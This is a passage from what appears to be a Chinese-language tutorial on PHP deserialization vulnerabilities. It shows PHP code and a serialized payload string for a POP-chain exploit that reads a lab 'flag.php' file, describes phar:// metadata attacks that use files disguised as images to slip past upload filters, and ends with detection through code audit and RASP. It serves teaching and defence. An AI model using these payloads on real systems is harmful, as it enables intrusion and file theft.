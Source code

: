 ```
public $params;
  }
  $test = new Test();
  $test->params = array('source'=>'/var/www/html/flag.php');
  $show = new Show();
  $show->str = array('str'=>$test);
  $output = new Output($show);
echo serialize($output);
?>
```

执行后得到如下序列化字符串：

```
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

**5\. 将生成的序列化字符串传递给漏洞参数实现利用**

漏洞参数是 GET 参数 str，因此可以如此构造请求：

整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。

#### 3.phar 文件攻击

在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题“It's a PHP unserialization vulnerability Jim, but not as we know it”，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：

```
$filename = 'phar://phar.phar/test.txt';
file_get_contents($filename);
```

在实际利用时，还可以对 phar 文件进行格式上的伪造，比如添加图片的头信息，将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。  
更加具体技术资料，推荐以下两篇：

[《利用 phar 拓展 php 反序列化漏洞攻击面》](https://paper.seebug.org/680/)

[《It's a PHP unserialization vulnerability Jim, but not as we know it》](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)

### 如何挖掘反序列化漏洞？

#### 1.代码审计

个人认为，想主动检测一些反序列化漏洞，特别是 0day 漏洞，最好的方法就是代码审计，针对不同的语言的反序化操作函数，比如 php unserialize 函数，还要注意 phar 文件攻击场景，然后往上回溯参数的传递来源，看是否有外部可控数据引用（比如 GET、POST 参数等等），而又未过任何过滤，那么它就有可能存在反序列化漏洞。

#### 2.RASP 检测

在《08 | SQL 注入：漏洞的检测与防御》中已经介绍过 RASP，可以针对不同的语言做一些 Hook，如果发现一些敏感函数（比如 php eval、unserialize）被执行就打印出栈回溯，方便追踪漏洞成功，以及漏洞利用技术技巧，整个 POP 链也可以从中获取到。

所以，通过 RASP 不仅有利于拦截漏洞攻击，还可以定位漏洞代码，以及学习攻击者的利用技术，为后续的漏洞修复和拦截提供更多的参考价值。
